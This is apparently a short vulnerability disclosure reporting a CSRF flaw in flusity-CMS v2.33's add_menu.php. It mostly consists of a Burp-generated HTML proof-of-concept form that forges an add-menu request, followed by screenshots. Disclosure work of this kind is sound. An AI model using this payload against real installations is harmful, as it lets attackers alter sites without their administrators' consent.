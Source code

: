 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/add_menu.php

![1](https://github.com/harryrabbit5651/cms/assets/157556914/39a6e42a-310e-4081-bc72-79911977d0cd)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/add_menu.php" method="POST">
      <input type="hidden" name="action" value="add&#95;menu" />
      <input type="hidden" name="menu&#95;name" value="cs" />
      <input type="hidden" name="lang&#95;menu&#95;name" value="1" />
      <input type="hidden" name="page&#95;url" value="1" />
      <input type="hidden" name="position" value="1" />
      <input type="hidden" name="template" value="template&#95;contacts" />
      <input type="hidden" name="show&#95;in&#95;menu" value="0" />
      <input type="hidden" name="parent&#95;id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>





```

![2](https://github.com/harryrabbit5651/cms/assets/157556914/e5749064-55f5-4f4a-8568-3a311ccb8c35)


Successed

![3](https://github.com/harryrabbit5651/cms/assets/157556914/db4bd3ed-00ce-4cc8-90b0-b02824c42e03)
